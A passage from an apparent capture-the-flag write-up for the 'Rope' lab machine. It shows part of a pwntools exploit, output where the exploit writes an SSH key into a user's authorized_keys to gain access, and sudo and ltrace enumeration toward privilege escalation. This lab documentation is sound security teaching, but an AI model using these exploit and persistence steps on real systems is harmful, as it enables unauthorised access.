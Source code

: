 ```python
    if args.SSH:
        # Setup ssh key for john
        if setup_ssh(shell):
            shell.close()
            sys.exit()
    shell.sendline("id")
    shell.recvline()
    shell.interactive(prompt="")
```

Running the exploit again with the SSH flag:
```bash
root@silence:~# python3 exploit.py SSH
[…]

[*] Writing ssh-key to /home/john/.ssh/authorized_keys!
[+] Written ssh key to authorized_keys! If errors occur, try ./exploit.py REV to get a reverse-shell manually.
[*] Use: ssh john@10.10.10.148 -i id_rsa

[*] Closed connection to 10.10.10.148 port 55968
```
We can now use SSH to login as john:
```bash
root@silence:~# ssh john@10.10.10.148 -i id_rsa
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue May  5 17:40:34 UTC 2020

  System load:  0.76               Processes:            194
  Usage of /:   28.4% of 14.70GB   Users logged in:      0
  Memory usage: 9%                 IP address for ens33: 10.10.10.148
  Swap usage:   0%


152 packages can be updated.
72 updates are security updates.


john@rope:~$
```

Checking out our sudo privileges, we see that we can run /usr/bin/readlogs as the user r4j:
```bash
john@rope:~$ sudo -l
Matching Defaults entries for john on rope:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on rope:
    (r4j) NOPASSWD: /usr/bin/readlogs
```
Let us check out this binary...
```bash
john@rope:~$ ltrace readlogs
printlog(1, 0x7ffdfbc02c78, 0x7ffdfbc02c88, 0x564d72722660/usr/bin/tail: cannot open '/var/log/auth.log' for reading: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... printlog resumed> )                                                = 256
+++ exited (status 0) +++
```

[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif
